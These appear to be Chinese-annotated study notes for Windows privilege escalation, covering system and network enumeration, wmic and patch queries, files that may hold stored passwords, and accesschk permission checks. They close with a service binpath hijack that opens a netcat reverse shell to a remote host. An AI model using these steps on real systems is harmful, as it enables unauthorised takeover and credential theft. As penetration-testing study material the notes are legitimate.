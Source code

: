 #  Windows #

[Windows提权](https://www.fuzzysecurity.com/tutorials/16.html)
# Δt for t0 to t3 - Initial Information Gathering #
## 1.系统
    C:\Windows\system32> systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
    
    C:\Windows\system32> hostname
    
    C:\Windows\system32> echo %username%
    
## 2.网络

    C:\Windows\system32> net user

    C:\Windows\system32> net user user1

    C:\Windows\system32> ipconfig /all
    
    C:\Windows\system32> route print

*arp -A displays the ARP (Address Resolution Protocol) cache table for all available interfaces.*

C:\Windows\system32> arp -A

C:\Windows\system32> netstat -ano

## 3.防火墙    
    C:\Windows\system32> netsh firewall show config

    C:\Windows\system32> netsh firewall show state

>This will display verbose output for all scheduled tasks, below you can see sample output for a
> single task.系统计划内的任务
> 要用英文编码才能运行：chcp 437
> 中文编码：chcp 936

    C:\Windows\system32> schtasks /query /fo LIST /v

> The following command links running processes to started services.

    
    C:\Windows\system32> tasklist /SVC

    C:\Windows\system32> net start


> This can be useful sometimes as some 3rd party drivers, even by reputable companies, contain more holes
> than Swiss cheese. This is only possible because ring0 exploitation lies outside most peoples expertise.
> 查看系统驱动

    C:\Windows\system32> DRIVERQUERY

## Δt for t4 - The Arcane Arts Of WMIC ##
## 4.wmic命令行 ##
(Windows Management Instrumentation Command-Line)

[wmic具体解释](https://www.computerhope.com/wmic.htm )

[比CMD更强大的命令行：WMIC后渗透利用（系统命令](https://www.freebuf.com/articles/system/182531.html#）)

[WMI在渗透测试中的重要性](https://zhuanlan.zhihu.com/p/37765866)
>1. 检索系统已安装的软件
 
    wmic product list brief |more

>2. 搜索系统运行服务

     wmic service list brief |more

>3. 搜索运行中的程序

     wmic process list brief |more

>4. 搜索启动

     wmic startup list brief |more


## Δt for t5 to t6 - Quick Fails ##

>qfe quick fix engineering
>查看补丁
>
    C:\Windows\system32> wmic qfe get Caption,Description,HotFixID,InstalledOn

>查该系统有没有你希望可以利用的漏洞
>
    C:\Windows\system32> wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."


此外，有可能在以下文件中会包含系统用户的账号密码，也有可能在其他文件夹中，应该查看整个系统

c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

除了Groups.xml之外，其他几个策略首选项文件可能有可选的“cPassword”属性，这些都是可在[here](https://docs.microsoft.com/en-us/openspecs/main/ms-openspeclp/3589baea-5b22-48f2-9d43-f5bea4960ddb)查到的：
Services\Services.xml: Element-Specific Attributes

ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element

Printers\Printers.xml: SharedPrinter Element

Drives\Drives.xml: Element-Specific Attributes

DataSources\DataSources.xml: Element-Specific Attributes


可以通过以下途径得到这些信息：
1.metasploit的模块：[地址](https://www.rapid7.com/db/modules/post/windows/gather/credentials/gpp)
2.powersploit里的一个方法Get-GPPPassword：[http://github.com/PowerShellMafia/PowerSploit](http://https://github.com/PowerShellMafia/PowerSploit "github地址")



# Δt for t7 to t10 - Roll Up Your Sleeves #



>We can use sc to query, configure and manage windows services. SC 是用于与服务控制管理器和服务进行通信的命令行程序。

    C:\Windows\system32> sc qc Spooler

可以通过[超链接](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)下载Microsoft's Sysinternals Suite，利用里面的accesschk.exe可以查询每项服务所需的权限。



// Service permissions

    sc query
    
    sc qc [service_name]
    

// Accesschk stuff

    accesschk.exe /accepteula (always do this first!!!!!)
    
    accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
    
    accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)

    accesschk.exe -ucqv [service_name]

// Find all weak folder permissions per drive.

    accesschk.exe -uwdqs Users c:\

    accesschk.exe -uwdqs "Authenticated Users" c:\
    

// Find all weak file permissions per drive.

    accesschk.exe -uwqs Users c:\*.*

    accesschk.exe -uwqs "Authenticated Users" c:\*.*
    
// Binary planting

    sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"

    sc config [service_name] obj= ".\LocalSystem" password= ""

    sc qc [service_name] (to verify!)

    net start [service_name]